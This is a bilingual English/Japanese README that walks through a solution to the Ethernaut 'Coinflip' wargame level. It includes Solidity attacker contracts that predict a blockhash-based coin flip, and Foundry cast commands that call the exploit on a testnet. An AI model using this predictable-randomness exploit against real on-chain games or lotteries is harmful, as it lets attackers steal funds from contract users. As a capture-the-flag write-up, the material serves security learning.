


<!-- @format -->
# English README　[Jump to Japanese Version](#japanese)

# Ethernaut Solutions
- The Ethernaut is a Web3/Solidity-based coding wargame, played in the Ethereum Virtual Machine. 
- Each level is a smart contract that needs to be 'hacked'.

Here are the writeups of my solutions levels I cleared. 
** I will not recommend you to look at solutions I wrote. Solve it yourself for your learning 😛 **

# How to use Ethernaut
- To use ethernaut, you need to use the console from the developper tool of your browser in the first place.
- If your confortable with Foundry and Methods call using `cast` and `send`, you can also solve problem from Foundry framework.
- If you are not confortable yet with ABI, then it is a great way to learn about it and how to call any contract by external calls.
- In higher difficulty levels, you will need to wrote smart contracts and interfaces to hack some smart contract externally for clearing levels.

## Ethernaut 3. Coinflip

The goal is to guess 10 times the right side on which the coin is gonna flip when calling the `flip()` function.

<br/>
<p align="center">

</p>
<br/>

- The smart contract use the `block number` for generating a random number. But the `block number` can be guessed in advance.

- So in a separate smart contract we are gonna catch the `block number` and decide in advance what to send to the `flip()` function.

- As we need to iterate the action 10 times to solve the problem, we can't use a loop.

1. In remix or foundry write and deploy a smart contract to hack `Coinflip`

- You can import `coinflip.sol` or make an interface of it for the separate contract. As we need to interact with it.

or

- The import way:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./CoinFlip.sol";

contract Test {
    using SafeMath for uint256;
    CoinFlip public coinFlip;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint256 public currNumber = 0;

    constructor(address conFlipAddress) public {
        coinFlip = CoinFlip(conFlipAddress);
    }

    function hackFlip() public {
        coinFlip.flip(getBool());
    }

    function getBool() private view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip1 = blockValue.div(FACTOR);
        bool side = coinFlip1 == 1 ? true : false;
        return side;
    }
}
```
or 

1 - You can just do a double contract (2 smart contract written into 1 solidity file)

2 Deploy to sepolia

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}

contract hackCoinFlip {
    struct Coinflip {
        address originalContract;
    }

    CoinFlip public originalContract =
        CoinFlip(0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF);
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // use this function if you want to manually enter the value true or false
    // function hackFlip(bool _guess) public {

    //     // pre-deteremine the flip outcome
    //     uint256 blockValue = uint256(blockhash(block.number - 1));
    //     uint256 coinFlip = blockValue / FACTOR;
    //     bool side = coinFlip == 1 ? true : false;

    //     // If I guessed correctly, submit my guess
    //     if (side == _guess) {
    //         originalContract.flip(_guess);
    //     } else {
    //         // If I guess incorrectly, submit the opposite
    //         originalContract.flip(!_guess);
    //     }
    // }

    //else use this function to automaticaly pass what getBool is finding
    function hackFlip() public {
        originalContract.flip(getBool());
    }

    function getBool() public view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }
}
```

3 Use cast on `hackCoinFlip` to get the　`getBool` value if you want to see

```bash
cast call 0xD02189cf6230ED69E9F3B69E84e9d1b85c97d8A6 "getBool()" --rpc-url $alchemy_RPC_sepolia --private-key $PRIVATE_KEY_TESTNET
```

4 call `hackflip()` 10 times.

```bash
cast send 0xD02189cf6230ED69E9F3B69E84e9d1b85c97d8A6 "hackFlip()" --rpc-url $alchemy_RPC_sepolia --private-key $PRIVATE_KEY_TESTNET
```

- To check how many time you won in a row, use the below. When you reached 10, you can submit your instance on ethernaut.

```
> x = await contract.consecutiveWins()

> x.toString()
< '10'
```


Level is completed.

<br/>
<p align="center">

</p>
<br/>

<a name="japanese"></a>
# 日本語版のREADME

# Ethernautの解決策
- Ethernautは、Web3/Solidityベースのコーディングウォーゲームで、Ethereum Virtual Machine (EVM) でプレイされます。
- 各レベルはハッキングする必要があるスマートコントラクトです。

これはクリアしたレベルの解決策です。
**解決策を見ることをお勧めしません。学習のために自分で解決してください 😛 **

# Ethernautの使用方法
- Ethernautを使用するには、まずブラウザの開発者ツールからコンソールを使用する必要があります。
- Foundryとcastおよびsendを使用した方法の呼び出しに慣れている場合、Foundryフレームワークから問題を解決することもできます。
- まだABIに慣れていない場合、それを使用して任意のコントラクトを外部呼び出しで呼び出す方法について学び、理解するのに最適な方法です。
- より高難度のレベルでは、スマートコントラクトとインターフェースを作成して、いくつかのスマートコントラクトを外部からハッキングするために解レベルをクリアする必要があります。

## Ethernaut 3. Coinflip

- 目標は、`flip（）` 関数を呼び出すときに、コインがどの側に反転するかを10回正しく予想することです。

<br/>
<p align="center">

</p>
<br/>


- スマートコントラクトはランダムな数値を生成するために `ブロック番号` を使用していますが、`ブロック番号` は事前に予測できます。

- したがって、別のスマートコントラクトでは `ブロック番号` を取得し、 `flip（）` 関数に送信する内容を事前に決定します。

- 問題を解決するためにアクションを10回繰り返す必要があるため、ループを使用することはできません。

1. RemixまたはFoundryで、`Coinflip` をハッキングするためのスマートコントラクトを記述してデプロイします。

- 別のコントラクトとやり取りする必要があるため、それをインポートするか、別のスマートコントラクトのインターフェイスを作成します。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./CoinFlip.sol";

contract Test {
    using SafeMath for uint256;
    CoinFlip public coinFlip;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint256 public currNumber = 0;

    constructor(address conFlipAddress) public {
        coinFlip = CoinFlip(conFlipAddress);
    }

    function hackFlip() public {
        coinFlip.flip(getBool());
    }

    function getBool() private view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip1 = blockValue.div(FACTOR);
        bool side = coinFlip1 == 1 ? true : false;
        return side;
    }
}
```


or

1 シングルファイルに2つのスマートコントラクト（ダブルコントラクト）を書くこともできます。

2 下記のコントラクトをSepoliaにデプロイする。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}

contract hackCoinFlip {
    struct Coinflip {
        address originalContract;
    }

    CoinFlip public originalContract =
        CoinFlip(0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF);
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // use this function if you want to manually enter the value true or false
    // function hackFlip(bool _guess) public {

    //     // pre-deteremine the flip outcome
    //     uint256 blockValue = uint256(blockhash(block.number - 1));
    //     uint256 coinFlip = blockValue / FACTOR;
    //     bool side = coinFlip == 1 ? true : false;

    //     // If I guessed correctly, submit my guess
    //     if (side == _guess) {
    //         originalContract.flip(_guess);
    //     } else {
    //         // If I guess incorrectly, submit the opposite
    //         originalContract.flip(!_guess);
    //     }
    // }

    //else use this function to automaticaly pass what getBool is finding
    function hackFlip() public {
        originalContract.flip(getBool());
    }

    function getBool() public view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }
}
```

3 Foundry castのコマンドを使用し、`hackCoinFlip` の　`getBool`データを見れるようにする

```bash
cast call 0xD02189cf6230ED69E9F3B69E84e9d1b85c97d8A6 "getBool()" --rpc-url $alchemy_RPC_sepolia --private-key $PRIVATE_KEY_TESTNET
```

4 `hackflip()` を10回コールする

```bash
cast send 0xD02189cf6230ED69E9F3B69E84e9d1b85c97d8A6 "hackFlip()" --rpc-url $alchemy_RPC_sepolia --private-key $PRIVATE_KEY_TESTNET
```

- 以下のコマンドで、負けずに勝った回数を確認してください。10回達成すると、Ethernautにコントラクトのインスタンスを提出できます。

```
> x = await contract.consecutiveWins()

> x.toString()
< '10'
```

レベルが完了。

<br/>
<p align="center">

</p>
<br/>
